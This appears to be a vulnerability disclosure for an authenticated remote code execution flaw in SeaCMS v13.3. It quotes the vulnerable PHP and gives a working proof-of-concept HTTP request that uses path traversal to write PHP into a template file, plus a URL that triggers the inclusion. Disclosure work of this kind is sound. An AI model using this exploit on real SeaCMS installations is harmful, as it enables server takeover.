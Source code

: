 
## admin_template.php RCE

### Introduction

SeaCMS v13.3 has a remote code execution vulnerability. This vulnerability is caused by the fact that although admin_template.php imposes certain restrictions on edited file suffixes, an attacker can achieve command execution and gain system privileges by writing to the htm file, combined with file inclusion

SeaCMS official website: [SeaCMS - Open Source Free PHP Movie System, Movie CMS, Video CMS, Film CMS, SEACMS](https://www.seacms.com/)

Click to download
![](./public/1.png)

You can see the latest version v13.3
![](./public/2.png)
### Debugging Analysis and Vulnerability Exploitation

The vulnerable code is located in `0omeqd/admin_template.php`. When the `action=saveCus` parameter is passed, there is no path traversal check, allowing an attacker to write to files such as `0omeqd/templets/admin_template.htm`. This can be done by passing the following parameters:
- `filedir=../uploads/../0omeqd/templets/admin_template.htm`
- `content=<?php phpinfo();?>`

```php
elseif($action=='saveCus')
{
    if($filedir == '')
    {
        ShowMsg('未指定要编辑的文件或文件名不合法', '-1');
        exit();
    }
    if(substr(strtolower($filedir),0,11)!=$dirTemplate){
        ShowMsg("只允许编辑templets目录！","admin_template.php");
        exit;
    }
    $filetype=getfileextend($filedir);
    if ($filetype!="html" && $filetype!="htm" && $filetype!="js" && $filetype!="css" && $filetype!="txt")
    {
        ShowMsg("操作被禁止！","admin_template.php");
        exit;
    }
    $folder=substr($filedir,0,strrpos($filedir,'/'));
    if(!is_dir($folder)){
        ShowMsg("目录不存在！","admin_template.php");
        exit;
    }
    $content = stripslashes($content);
    $content = m_eregi_replace("##textarea","<textarea",$content);
    $content = m_eregi_replace("##/textarea","</textarea",$content);
    $content = m_eregi_replace("##form","<form",$content);
    $content = m_eregi_replace("##/form","</form",$content);
    createTextFile($content,$filedir);
    ShowMsg("操作成功！","admin_template.php?action=custom");
    exit;
}
```

The `filedir` parameter's first 11 characters must be `../templets`; otherwise, the code will exit.  
![](./public/6-1.png)

Next, when the `action=add` parameter is passed, the file `0omeqd/templets/admin_template.htm` will be included, executing the injected PHP code.  
![](./public/6-2.png)
### Attack Process

The following request triggers the vulnerability by performing path traversal and injecting PHP code:

**POC Request:**
```http
POST /0omeqd/admin_template.php?action=saveCus HTTP/1.1
Host: 127.0.0.1:8001
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=ag0sdrimqfovaivtekq9e5e1m1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25353

filedir=../templets/../0omeqd/templets/admin_template.htm&content=<?php+phpinfo();?>
```
![](./public/6-3.png)

Then, trigger the file inclusion to execute the PHP code by visiting the following URL:

**POC URL:**
```r
0omeqd/admin_template.php?action=add
```
![](./public/6-4.png)
